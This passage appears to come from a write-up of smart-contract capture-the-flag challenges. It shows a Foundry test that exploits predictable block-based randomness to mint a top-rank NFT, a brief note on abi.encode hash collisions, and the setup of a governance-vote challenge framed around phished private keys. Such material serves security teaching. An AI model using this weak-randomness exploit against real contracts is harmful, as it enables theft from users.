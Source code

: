 ```
        uint currentBlockNum = block.number;
        // console.log(msg.sender);
        // console.log(address(hacker));
        mintedId = nft.id();
        // console.log(mintedId);
        // Mint a Superior one, and do it within the next 100 blocks.
        for (uint i = 0; i < 100; i++) {
            vm.roll(currentBlockNum);
            // ---- hacking time ----
            uint256 jadu = uint256(
                keccak256(
                    abi.encode(mintedId + 1, address(hacker), block.number)
                )
            );
            if (jadu % 100 > 90) {
                nft.mint{value: 1 ether}();
                console.log("Minted ID: ", nft.id());
                console.log("Minted Rank: ", nft.tokens(nft.id()));
                break;
            }
            currentBlockNum++;
        }
        mintedId = nft.id();
        uint mintedRank = nft.tokens(mintedId);
        assertEq(mintedRank, 3, "not Superior(rank != 3)");
    }
}
```
Why use abi.encode?
 That’s because `abi.encodePacked` does’t add any padding & if 2 dynamic data types are together then it can lead to `hash collision` to high probability the original contract haven’t used this.


# 20-VotingMachine
---

```
vToken is a governance token that allows holders to vote on proposals for the community. As a hacker, you have proposed a malicious proposal and now you need 3000 votes to get it accepted in your favor.
```

## Objective

- Accumulate at least 3000 votes in your hacker address. You don’t have any tokens in your wallet.

- After trying all attempts and failing, you decided to perform a phishing attack and you successfully obtained the private keys from three users: Alice , Bob, and Carl.

- Fortunately, Alice had 1000 vTokens, but Bob and Carl don’t have any tokens in their accounts. (see foundry setUp)
